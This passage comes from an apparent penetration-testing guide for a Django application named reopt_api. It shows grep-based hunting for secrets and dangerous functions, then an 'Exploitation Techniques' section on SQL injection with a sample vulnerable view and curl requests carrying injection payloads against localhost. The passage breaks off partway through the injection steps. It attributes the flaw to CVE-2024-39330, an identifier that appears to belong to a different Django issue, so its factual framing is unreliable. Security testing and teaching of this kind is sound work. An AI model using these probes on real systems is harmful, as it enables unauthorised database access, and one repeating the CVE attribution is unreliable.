 ```bash
# Search for dangerous functions
grep -r "eval\|exec\|pickle\|yaml.load\|subprocess" . --include="*.py"

# Check settings for security issues
cat reopt_api/settings.py | grep -i "debug\|secret\|allowed_hosts\|cors"
```

**Map Attack Surface:**

```bash
# Create a map of all models and fields
python manage.py inspectdb > models_map.txt

# List all URLs
python manage.py show_urls > urls_map.txt
```

---

## 4. Exploitation Techniques

### 4.1 SQL Injection (CVE-2024-39330)

**Vulnerability Location:**

Look for code patterns like this in the codebase:

```python
# Vulnerable example (reopt_api/views.py or similar)
from django.http import JsonResponse
from .models import EnergyProject

def get_project_data(request):
    # VULNERABLE: User controls field_name
    field_name = request.GET.get('field', 'name')

    # SQL injection via values()
    projects = EnergyProject.objects.filter(active=True).values(field_name)

    return JsonResponse(list(projects), safe=False)
```

**Exploitation Steps:**

**Step 1: Identify Vulnerable Endpoint**

```bash
# Test if the application accepts field names as parameters
curl "http://localhost:8000/api/v1/projects?field=name"
curl "http://localhost:8000/api/v1/projects?field=id"
curl "http://localhost:8000/api/v1/projects?field=description"
```

**Step 2: Test for SQL Injection**

```bash
# Try injecting SQL syntax
curl "http://localhost:8000/api/v1/projects?field=id');--"

# If vulnerable, you might see an error or different behavior
curl "http://localhost:8000/api/v1/projects?field=id')%20AND%201=1--"
curl "http://localhost:8000/api/v1/projects?field=id')%20AND%201=2--"
```
